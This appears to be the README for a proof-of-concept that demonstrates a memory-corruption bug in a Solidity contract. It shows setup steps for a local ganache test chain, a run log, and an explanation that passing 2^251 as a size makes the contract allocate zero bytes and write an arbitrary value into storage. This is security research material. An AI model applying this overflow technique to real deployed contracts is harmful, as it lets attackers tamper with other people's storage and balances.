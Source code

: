 # Requirements

* Node

# Setup

Install `ganache-cli`, `solc`, and `web3` via npm, i.e., `npm install ganache-cli web3 solc --save`

# Reproducing

In another terminal window, begin the ganache test client: `./node_modules/.bin/ganache-cli`

Then, in this directory, simply run `node index.js`.

You should see something like the following output

    helogale:MemoryCorruptionPOC jrw$ node index.js
    Done compiling
    eth_accounts
    eth_gasPrice
    eth_sendTransaction
    
      Transaction: 0xa1cdd8191ec531941dfbc98f629bcb372244b558b7baf2437d409184c3500f0c
      Contract created: 0x5508bf775096822f81e4d8f2bdcf8ba48e8a353f
      Gas usage: 196441
      Block Number: 1
      Block Time: Fri Mar 27 2020 16:01:16 GMT-0700 (Pacific Daylight Time)
    
    eth_getTransactionReceipt
    eth_getCode
    Deployed corruptible contract
    calling exploitable target, exploiting for 0x0ED3D44e91764A38b0eC20420f939cE057cF09e7
    eth_sendTransaction
    
      Transaction: 0x32b3a12b2fa874105693e7443a9a235218e75fc341a8da9854189fb66f71dc50
      Gas usage: 45583
      Block Number: 2
      Block Time: Fri Mar 27 2020 16:01:16 GMT-0700 (Pacific Daylight Time)
    
    eth_getTransactionReceipt
    completed corruption, fetching account balance for 0x0ED3D44e91764A38b0eC20420f939cE057cF09e7
    eth_call
    1234567890

index.js deploys the vulnerable contract and then calls `corruptMemory` with `2^251` for `sz` and
`1234567890` for `elem`. Thus 0 bytes are actually allocated. The last line of output shows that `elem` actually gets written into
storage.
